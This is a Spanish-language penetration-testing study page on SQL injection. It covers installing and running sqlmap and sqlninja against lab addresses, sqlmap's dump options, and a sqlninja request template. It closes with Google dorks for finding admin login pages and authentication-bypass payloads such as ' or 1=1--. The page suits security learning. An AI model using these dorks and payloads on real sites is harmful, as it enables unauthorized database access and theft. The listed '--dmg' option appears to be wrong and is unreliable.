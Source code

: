 # SQL

SQL (por sus siglas en inglés Structured Query Language; en español lenguaje de consulta estructurada) es un lenguaje específico del dominio que da acceso a un sistema de gestión de bases de datos relacionales que permite especificar diversos tipos de operaciones en ellos.

**Referencia**: [Wikipedia](https://es.wikipedia.org/wiki/SQL)

## Metodos GET y POST

Hay dos métodos de subir la información mediante las variables superglobales **GET** y **POST**.

Es importante recordar que **$_GET** y **$_POST** son arreglos que tienen posiciones asociativas, es decir, cada posición en el arreglo tiene un nombre, y ese nombre es el mismo que tiene cada campo del formulario.

* **GET**: en link de la página web se aprecia lo que se sube al formulario.
* **POST**: no se aprecia en el link lo que se le sube al formulario.

# SQLMap

SQLmap es una herramienta desarrollada en Python para realizar SQL Injection de forma automatizada. Con esto evitamos en cierta forma el trabajo de crear bypass o ingresar códigos sql para explotar los datos

#### Inslar SQLMap

```bash
sudo apt-get install python
git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

#### Iniciar SQLMap
```
python sqlmap.py -u http://localhost/pruebas/inyecciones.php?id=1
```

#### Comandos basicos:

* **--dbs** Nombre de Base de Datos.
* **--columns** Obtener Columnas.
* **--tables** Obtener Tablas.
* **--dmg** Volcar los datos de la tabla en particular, muy similar a la función que cumple el comando mysqldump.
* **--dump** Volcar los datos de la tabla en particular.

# SQLNinja

Sqlninja es una herramienta destinada a explotar las vulnerabilidades de inyección SQL en una aplicación web que utiliza Microsoft SQL Server como su back-end.

Su objetivo principal es proporcionar un acceso remoto en el servidor de base de datos vulnerable, incluso en un entorno muy hostil. Los verificadores de penetración deberían usarlo para ayudar y automatizar el proceso de hacerse cargo de un Servidor de base de datos cuando se descubrió una vulnerabilidad de inyección SQL.

**Referencia:** [Kali - SQLNinja](https://tools.kali.org/vulnerability-analysis/sqlninja) [Web - SQLNinja](http://sqlninja.sourceforge.net/)

#### Configurando SQLNinja

1. Ir a la carpeta donde está SQLNinja y ubicar el archivo sqlninja.conf
2. En la *linea 38* hay un ejemplo, se remplaza ese texto con el Request de Vega.
```sqlninja.conf
--httprequest_start-- 
GET https://172.16.223.128/checkid.asp?id=1;__SQL2INJECT__ HTTP/1.0
Host: 172.16.223.128
User-Agent: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.7.13) Gecko/20060418 Firefox/1.0.8
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*
Accept-Language: en-us,en;q=0.7,it;q=0.3
Accept-Charset: ISO-8859-15,utf-8;q=0.7,*;q=0.7
Content-Type: application/x-www-form-urlencoded
Connection: close
--httprequest_end--
```
3. Colocar "__SQL2INJECT__" en el **Parametro** a inyectar.

**TIPS:**
* Para metodos **POST** debemos de usar el *https://* y borrar la linea de *Content Length*.

#### Ejecutar
```bash
sqlninja -m <modo> -f <directorio sqlninja.conf>
```

## Utilidades

**Ejemplos de Dorks:**

* inurl:adminlogin.aspx
* inurl:admin/index.php
* inurl:administrator.php
* inurl:administrator.asp
* inurl:login.asp
* inurl:login.aspx
* inurl:login.php
* inurl:admin/index.php
* inurl:adminlogin.aspx

**Algunas sentencias de ataque de vectores de mysql:**
```
User: 1'or'1'='1
Password: ' or 1=1--
```
**Ejemplo más utilizado**
```
http://localhost/pruebas/inyecciones.php?id=1
```

